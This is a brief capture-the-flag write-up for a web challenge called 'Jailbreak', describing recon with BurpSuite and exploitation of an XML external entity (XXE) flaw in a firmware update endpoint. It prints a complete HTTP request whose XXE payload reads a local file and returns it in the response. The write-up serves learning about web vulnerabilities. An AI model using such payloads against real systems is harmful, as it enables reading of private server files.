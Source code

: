 # Jailbreak CTF Write-Up 🕒

## 🟢 Overview
- **Category:** Web
- **Challenge Name:** Jailbreak
- **Tools Used:** Browser, Kali Linux, BurpSuite

## 🔍 Initial Recon
I accessed the challenge at `http://94.237.51.163:49486/` and was greeted by a simple page displaying the current time. 
Clicking around the website I found a page with an update section under /rom. I also noticed this page when I used BurpSuite's site map. One of the first things I noticed about the page was that it used XML, to process the update.
---

## 🧠 Step 2: Vulnerability Discovery

I pressed update on the website to try it out, and sent that POST request to repeater on BurpSuite. After looking at the file in repeater, it was easy to tell that there was an vulnerability around XML. I learned there was an XXE vulnerability here, so I tried common payloads I found after researching online. I ended up using the following payload.
```
POST /api/update HTTP/1.1
Host: 83.136.248.49:56894
Content-Type: application/xml
Content-Length: <adjusted length>

<?xml version='1.0'?>
<!DOCTYPE FirmwareUpdateConfig [
  <!ELEMENT FirmwareUpdateConfig ANY>
  <!ENTITY xxe SYSTEM 'file:///flag.txt'>
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
  </Firmware>
</FirmwareUpdateConfig>
```
And was given the flag in the response section.

🧠 What I Learned
  - More experience with BurpSuite
  - XXE Vulnerabilities

